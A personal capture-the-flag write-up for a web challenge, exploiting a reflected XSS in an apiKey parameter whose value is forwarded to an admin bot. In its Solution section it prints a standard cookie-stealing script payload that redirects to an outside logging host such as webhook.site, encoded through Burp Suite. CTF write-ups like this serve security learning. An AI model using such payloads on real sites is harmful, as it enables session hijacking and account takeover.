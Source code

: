 Although it's label as easy, but i took me hours just to grasp it so i'm writing a writeup for my own sake. huhuhuhuhuh

![Screenshot 2024-07-27 143941](https://github.com/user-attachments/assets/51cc83db-e9f0-4bfb-848f-9f93ea172cee)

Hint 1: Try to change the parameter<br />
Hint 2: Try to steal admin's cookie<br />

## Exploration
I found out that we could trigger alert function by inserting script into url under ```apiKey``` parameter.
<br>![image](https://github.com/user-attachments/assets/4a93194b-e8d5-45bb-8cd5-de91d865e07f)<br />
<br>let's also look into the page source. <br />

![image](https://github.com/user-attachments/assets/bb5d0b70-3da9-4713-9027-01623e780585)<br />
<br>In this function, the xss payload is reflected on to the html code of the website. That's why we could trigger an alert function

![image](https://github.com/user-attachments/assets/c2a59d25-293b-4a6d-ac70-5cb5a068ad29)<br />
<br>In this function, the ```apiKey``` parameter value is being sent to admin for review. 
Therefore, we can insert xss payload that could steal cookies.

## Solution
### Step 1: Intercept traffic of reportAdmin() using Burp Suite and send to Repeater
![image](https://github.com/user-attachments/assets/6c1f8983-b585-4bd2-9f95-478dc607b1ac)
![image](https://github.com/user-attachments/assets/62d9d43e-5541-4bbf-bcc6-39edc43569b3)
![image](https://github.com/user-attachments/assets/3ea11497-1515-4bf5-af74-e89f03db0c0a)

### Step 2: Craft the XSS Injection Payload to steal admin cookies<br />
In order for it to work, we need to make the payload into hex format. (Because ```reportAdmin()``` function has encodeURIComponent(), I'm guessing there's also one in the server script)
<br>We can do this with Burp Suite in-build encoder and decoder.
We are going to use a very standard cookie stealing payload
</script><script>location.href="[URL]?c"+document.cookie</script>
The URL is being used to specify a location return values. We can use any free online hosting services like https://webhook.site/
![image](https://github.com/user-attachments/assets/94f6dafb-986d-4e1b-98e7-22c2b7906392)

### Step 3: Send the payload to admin
![image](https://github.com/user-attachments/assets/8c4af8f7-5b72-47d9-b5f9-1a050223a948)
![image](https://github.com/user-attachments/assets/4d88accc-d206-4a9f-a964-379157081ae1)
TA-DA! we got flag!
